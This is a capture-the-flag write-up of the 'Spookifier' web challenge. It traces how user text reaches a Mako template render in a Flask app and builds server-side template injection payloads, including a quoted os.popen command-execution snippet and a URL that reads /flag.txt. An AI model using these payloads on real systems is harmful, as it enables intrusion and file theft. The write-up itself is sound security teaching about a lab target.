




# Spookifier

Difficulty:: #easy

## Introduction
The box is a flask web app where you can pass a text parameter via URL get parameters to get the text formated under four rules. But  one of the format rules is vulnerable to **Server Side Template Injection SSTI** in marko template engine. So you can inject python code, in this case to retrieve the flag.

## Target data

- `Spawn Docker`: `46.101.26.108:30376` 
- `Source Code`: `web_spookifier.zip`


## Challenge Description
*There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?*


## Enumeration
```
http://46.101.26.108:30376/
```


First download the source code and identify a flask app, with two  [`blueprints`](https://flask.palletsprojects.com/en/2.2.x/api/#flask.Blueprint) (that is a way to organize the endpoints), group them according to how ther functions are related. So here all endpoinst will be in `web_spookifier/challenge/application/blueprints/routes.py`.

```shell
magor$ tree web_spookifier
web_spookifier
├── Dockerfile
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── index.css
│   │   │   │   └── nes.css
│   │   │   └── images
│   │   │       └── vamp.png
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
└── flag.txt
```

There is only one endpoint, a GET request that accept a `text` parameter that is process by the `spookify()` function and it returns to render in the main page:

```Python
# web_spookifier/challenge/application/blueprints/routes.py
# ...SNIP...
@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

I write `Testing` to see what is render in the main page, and it seems a text converted:
```
http://46.101.26.108:30376/?text=Testing
```


Now, I am gonna dig into the `spookify()` function that checking the import: `from application.util import spookify` I can find it inside the `web_spookifier/challenge/application/util.py` file

```python
# web_spookifier/challenge/application/util.py
# ...SNIP...

def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)

```

The function call the `change_font()` function, that is the same `utils.py` file, after that call the `generate_render()` and return it to render in the `index.html`.

Now dig into these two functions.

### change_font

```python
# web_spookifier/challenge/application/util.py
# ...SNIP...
font1 = {
	'A': '𝕬',
	'B': '𝕭',
# ...SNIP...
	'z': '𝖟',
	' ': ' '
}

# ...SNIP...

font4 = {
	'A': 'A', 
	'B': 'B',
# ...SNIP...
	'0': '0',
	' ': ' ',
}

# ...SNIP...
def change_font(text_list):
➊	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
➋	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' '))➌ for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

➍	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts
# ...SNIP...
```

Look that it converts the string input `text_list` to a list ➊, i can check it open Python:

```python
>>> [*"testing"]
['t', 'e', 's', 't', 'i', 'n', 'g']
```

Next, it defines a lambda function ➋ that recieve two parameters `text` and `font_type`, If we check  in 
➍ , `text` will be `text_list`, and the `font_type` are 4 options `font1` to `font4` . 


What it does the lambda function is a loop ➌ to every element in the list  `text` . And wit that character `i`  it looks into the globals variables with `globals()[font_type]` to map each character with a corresponding according de dictionary definition in `font1` to `font4`.


### generate_render

```python
# web_spookifier/challenge/application/util.py
# ...SNIP...
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

```

The `generate_render` funciton define a HTML table structure, and use the [`str.format()`](https://docs.python.org/3/library/stdtypes.html#str.format) method. to add the `converted_fonts` to ech row in the HTML.

So it seems that we potencially could perform a [Server Side Template Injection SSTI](), due to indirectly we can control the data that is render. But, first we need to know which render engine is use flask. And to answer this, we only have to read the `DockerFile` :

```DockerFile
# Install dependencies
RUN pip install Flask==2.0.0 mako flask_mako Werkzeug==2.0.0
# ...SNIP...
```

`Pip` installl `Flask` and `mako` , search in google found that [mako](https://www.makotemplates.org/) is a template library. So now that I know the tecnology, I search and found in hacktricks [SSTI mako python](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mako-python)  the following payload:

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

But before doing that we can test some more easy like the classic payload `${7*7}`:
```
http://46.101.26.108:30376/?text=%24%7B7*7%7D
```


It works!. Now we have to build de payload to get the flag!
## Foothold

We have to know the current limitations we have, and is that our input would be map it according to the four fonts available, the first three fonts only map the alphabet, but the `font4` also map numbers and chars like :

```
'$', '(', ')', '{', '}', '.', "'", '"', '/', '-', '|', '*', '+', '1', '2', '3', '4', '5', '6', '7', '8', '9', '0', ' '
```

So we only can use those characters, with that in mind I made the following payload
```
${open('/flag.txt').read()}
```

> Remember that in the `Dockerfile` we know where is store the `flag.txt`

```
http://46.101.26.108:30376/?text=%24%7Bopen%28%27%2Fflag.txt%27%29.read%28%29%7D
```



